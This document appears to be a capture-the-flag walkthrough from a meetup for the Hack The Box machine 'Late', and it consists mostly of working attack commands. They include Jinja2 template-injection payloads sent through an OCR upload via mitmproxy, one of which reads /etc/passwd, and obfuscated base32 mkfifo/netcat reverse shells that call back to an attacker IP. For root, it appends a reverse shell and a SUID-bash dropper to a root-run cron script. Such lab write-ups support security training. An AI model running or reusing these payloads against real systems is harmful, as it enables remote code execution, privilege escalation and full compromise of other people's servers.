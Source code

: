 

# hackdewereld meetup 18-08-2022
late.htb

# hosts
late.htb 
image.late.htb # vuln for ssti


# special setting:

If your convert commands fails in the proxy use this command:

```bash
ls /etc/ImageMagick*/policy.xml | while read line; do cp $line $line.bak; done; sed -i 's/16KP/128KP/g' /etc/ImageMagick*/policy.xml
```

# what to do
- make image

I chose to make a mitm proxy solution for this.

- send to server with ocr

You can use curl while running the mitmproxy like this:
```bash
# pane 1
mitmdump --listen-port 8800 -k -s mitm_p_script.py
# pane 2
curl -x 'http://localhost:8800' -d 'ssti={{7*7}}' http://images.late.htb/haxhaxhax
```

The haxhaxhax is injected via mitmproxy.

- ssti

I've tried using tpl-map on this proxy but that didn't work.

```bash
python2 tplmap.py -u http://images.late.htb/haxhaxhax -d 'ssti=' --proxy 'http://localhost:8800'
```

So let's do it manual.

```bash
curl -x 'http://localhost:8800' -d 'ssti={{7*7}}' http://images.late.htb/haxhaxhax
curl -x 'http://localhost:8800' -d 'ssti={{"7"*7}}' http://images.late.htb/haxhaxhax
# python2 tplmap.py -u http://images.late.htb/haxhaxhax -d 'ssti=*' --proxy 'http://localhost:8800'

# read /etc/passwd on the server:
curl -Ssx 'http://localhost:8800' -d 'ssti={{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}' http://images.late.htb/haxhaxhax

# get all subclasses:
curl -Ssx 'http://localhost:8800' -d 'ssti=abcde {% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %} asdfb' http://images.late.htb/haxhaxhax | w3m -dump -T text/html

# get subprocesses number:
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen
# 243: class'subprocess.Popen
# 475:class 'click.utils.KeepOpenFile
```

Rce:

```bash
# pane 1
ip=$(ip a s tun0 | grep inet | head -n1 | awk '{print $2}' | cut -d/ -f1)
port=9000

index=$(curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html  | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen | head -n1 | cut -d : -f 1)
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))']("id",shell=True,stdout=-1).communicate()[0].strip()}} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))'](request.args.input,shell=True,stdout=-1).communicate()[0].strip()}} ' -d 'input=echo '$(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc '$ip' '$port' >/tmp/f' | base32 -w 0)' | base32 -d | bash' http://images.late.htb/haxhaxhax

# pane 2
nc -lvnp 9000 
# or 
stty raw -echo; (echo 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-256color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 9000 && reset
```




# privesc
- writable sbin folder that is exec by root crontab


```bash
# rev shell:
echo "echo $(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.16 443 >/tmp/f' | base32 -w 0) | base32 -d | bash" >> /usr/local/sbin/ssh-alert.sh ; ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1
# suid bin:
echo -e 'cp /bin/bash /tmp/bash\nchown root:root /tmp/bash\nchmod +x /tmp/bash\nchmod u+s /tmp/bash' >> /usr/local/sbin/ssh-alert.sh;echo bla | ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1 ; /tmp/bash -p
```

and execute it by using ssh on the server

```bash
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1
```


```bash
index=$(curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html  | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen | head -n1 | cut -d : -f 1)
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))'](request.args.input,shell=True,stdout=-1).communicate()[0].strip()}} ' -d 'input=echo '$(echo 'echo "echo $(echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.16 443 >/tmp/f" | base32 -w 0) | base32 -d | bash" >> /usr/local/sbin/ssh-alert.sh ; ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1' | base32 -w 0)' | base32 -d | bash' http://images.late.htb/haxhaxhax
```


# ORC POC

```bash
kill -9 $(ps aux | grep -i mitm | awk '{print $2}'); pkill nc; ./one-click-root.py
```

![](./ocr.gif)
